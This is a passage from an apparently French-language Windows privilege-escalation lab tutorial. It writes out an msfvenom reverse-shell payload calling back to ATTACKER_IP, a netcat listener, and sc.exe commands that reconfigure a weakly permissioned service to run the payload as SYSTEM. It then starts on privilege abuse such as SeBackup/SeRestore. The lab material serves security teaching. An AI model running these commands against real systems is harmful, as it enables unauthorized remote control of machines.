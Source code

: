 Nous voyons ici que le groupe `BUILTIN\\Users` a la permission SERVICE_ALL_ACCESS, ce qui signifie que n'importe quel utilisateur peut reconfigurer le service.

Avant de modifier le service, construisons un autre exe-service reverse shell et démarrons un listener pour celui-ci sur la machine de l'attaquant :

```cmd 
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```

Nous allons ensuite transférer l'exécutable du reverse shell sur la machine cible et le stocker dans `C:\Usersthm-unpriv\rev-svc3.exe`. N'hésitez pas à utiliser wget pour transférer votre exécutable et le déplacer à l'emplacement souhaité. **N'oubliez pas d'accorder les permissions à Tout le monde** pour exécuter votre charge utile :

```Command Prompt
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Pour modifier l'exécutable et le compte associés au service, nous pouvons utiliser la commande suivante (attention aux espaces après les signes égaux lors de l'utilisation de sc.exe) :

```command prompt
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notez que vous pouvez utiliser n'importe quel compte pour exécuter le service. Nous avons choisi LocalSystem car c'est le compte le plus privilégié disponible. Pour déclencher notre charge utile, il suffit de redémarrer le service :

```command prompt
C:\> sc stop THMService
C:\> sc start THMService
```
Et nous recevrons un shell sur la machine de notre attaquant avec les privilèges SYSTEM !

## Exploiter des privilèges mal configurés

Chaque utilisateur dispose d'un ensemble de privilèges qui peuvent être vérifiés à l'aide de la commande suivante :

```powershell
whoami /priv
```

Une liste complète des privilèges disponibles sur les systèmes Windows est disponible [ici](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). Du point de vue d'un attaquant, seuls les privilèges permettant une escalade dans le système sont intéressants. Vous trouverez une liste complète des privilèges exploitables sur le projet [Priv2Admin Github](https://github.com/gtworek/Priv2Admin).

Nous n'examinerons pas chacun d'entre eux, mais nous montrerons comment abuser de certains des privilèges les plus courants.

### SeBackup / SeRestore
